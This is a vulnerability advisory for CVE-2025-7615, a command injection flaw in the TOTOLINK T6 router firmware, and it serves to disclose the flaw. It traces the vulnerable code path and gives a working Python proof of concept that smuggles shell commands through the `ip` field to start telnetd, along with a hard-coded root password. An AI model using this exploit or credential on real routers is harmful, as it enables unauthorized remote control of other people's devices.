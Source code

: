 # [CVE-2025-7615](https://www.cve.org/CVERecord?id=CVE-2025-7615)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `clearPairCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `clearPairCfg`. The `ip` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](6/1.png)

![image-1](6/4.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](6/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](6/3.png)

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"clearPairCfg",
        "type":"slave",
        "ip":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://youtu.be/G05N6n9uNUE)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.